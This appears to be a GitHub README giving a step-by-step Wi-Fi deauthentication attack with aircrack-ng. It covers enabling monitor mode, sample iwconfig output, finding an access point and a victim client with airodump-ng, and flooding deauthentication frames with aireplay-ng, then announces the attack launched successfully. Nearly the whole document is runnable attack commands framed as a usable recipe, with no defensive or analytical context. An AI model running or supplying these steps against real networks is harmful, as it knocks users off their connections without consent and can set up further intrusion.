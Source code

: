 ## Deauth attack
1. Enable monitor mode
	`airmon-ng start wlan0`
	`iwconfig`
	
	```lo        no wireless extensions.

	eth0      no wireless extensions. 
	
	wlan0     IEEE 802.11  ESSID:"#SSID# "  
          Mode:Managed  Frequency:2.452 GHz  Access Point: BC:8A:E8:44:73:BF   
          Bit Rate=1 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=66/70  Signal level=-44 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:162   Missed beacon:0

	wlan1mon  IEEE 802.11  Mode:Monitor  Frequency:2.452 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
	```
	
2. Get the BSSID of the Access Point

	`airodump-ng wlan1mon`
	
	![Screenshot](airodump_victim.png)
	
3. Search for victim

	`airodump-ng -d <AP> -c <CHANNEL>`
	
	![Screenshot1](find.png)
	
4. Send Deauth 

	`aireplay-ng -0 0 -a <AP> -c <VICTIM> wlan1mon`
	
	![Screenshot2](deauth.png)
	
	
### Deauth attack Launched Successfully